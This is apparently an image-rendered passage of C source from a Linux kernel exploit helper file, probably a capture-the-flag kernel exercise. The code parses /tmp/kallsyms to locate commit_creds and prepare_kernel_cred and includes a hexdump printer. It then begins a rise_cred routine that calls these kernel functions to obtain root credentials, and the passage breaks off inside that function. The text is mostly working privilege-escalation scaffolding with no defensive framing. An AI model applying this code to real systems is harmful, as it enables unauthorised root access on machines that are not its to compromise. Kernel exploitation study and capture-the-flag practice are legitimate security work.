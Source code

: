 ```c
	if(sym_table == NULL){
		printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
		exit(1);
	}
	unsigned long long addr = 0;
	char type[0x10];
	char func_name[0x100];
	// when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
	while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
		if(commit_creds && prepare_kernel_cred)		// two addresses of key functions are all found, return directly.
			return;
		if(!strcmp(func_name, "commit_creds")){		// function "commit_creds" found
			commit_creds = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
		}else if(!strcmp(func_name, "prepare_kernel_cred")){
			prepare_kernel_cred = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
		}
	}
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
	int index = 0;
	char output_buffer[80];
	memset(output_buffer, '\0', 80);
	memset(output_buffer, ' ', 0x10);
	for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
		char temp_buffer[0x10];
		memset(temp_buffer, '\0', 0x10);
		sprintf(temp_buffer, "%#5x", index);
		strcpy(output_buffer, temp_buffer);
		output_buffer[5] = ' ';
		output_buffer[6] = '|';
		output_buffer[7] = ' ';
		for(int j=0; j<16; j++){
			if(index+j >= length)
				sprintf(output_buffer+8+3*j, "   ");
			else{
				sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
				if(!isprint(buf[index+j]))
					output_buffer[58+j] = '.';
				else
					output_buffer[58+j] = buf[index+j];
			}
		}
		output_buffer[55] = ' ';
		output_buffer[56] = '|';
		output_buffer[57] = ' ';
		printf("%s\n", output_buffer);
		memset(output_buffer+58, '\0', 16);
		index += 16;
	}
}

void rise_cred(){
	// define two function pointer
	void* (*prepare_kernel_credp)(void*) = prepare_kernel_cred;
	int (*commit_credsp)(void*) = commit_creds;
```